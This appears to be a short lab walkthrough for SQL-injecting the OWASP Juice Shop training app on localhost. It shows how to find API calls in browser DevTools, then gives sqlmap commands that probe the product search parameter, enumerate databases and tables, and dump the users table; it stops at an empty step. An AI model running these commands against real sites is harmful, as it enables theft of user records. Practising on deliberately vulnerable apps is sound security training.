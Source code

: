 ## 1. To Find API Calls:
- **Open DevTools (F12)** → Go to **Network tab**
- **Check "Preserve log"**
- **Click on the “XHR” or “Fetch” filter**
- **Refresh the JuicyShop page** (Ctrl+R)


### 2. **Look in Network Tab Filters**
Use these filters from the top bar of the DevTools “Network” tab:
- `All` → Everything (just spammy)
- `XHR` → API responses like JSON
- `JS` or `Doc` → Sometimes the app loads things differently


## Steps::
Step 1: Run SQLMap on the API Endpoint or any Endpoint to find the Vulnerable Param: `sqlmap -u "http://localhost:3000/rest/products/search?q=test" --batch --level=2 --risk=2`

Step 2: Enumerate the Databases: `sqlmap -u "http://localhost:3000/rest/products/search?q=test" --batch --dbs`
- This will list all the databases in the backend SQL server.

```
SQLite is file-based, lightweight, and doesn’t support full multi-user DBMS features like MySQL/PostgreSQL.
```

Step 3: Enumerate Tables from Main DB: `sqlmap -u "http://localhost:3000/rest/products/search?q=test" --batch -D main --tables`

Step 4: Dump Data from the users Table `sqlmap -u "http://localhost:3000/rest/products/search?q=test" --batch -D main -T users --dump`
```
add --limit 5 to pull just a few rows.
Want to see only column names first? Use --columns instead of --dump.
```

Step 5: 

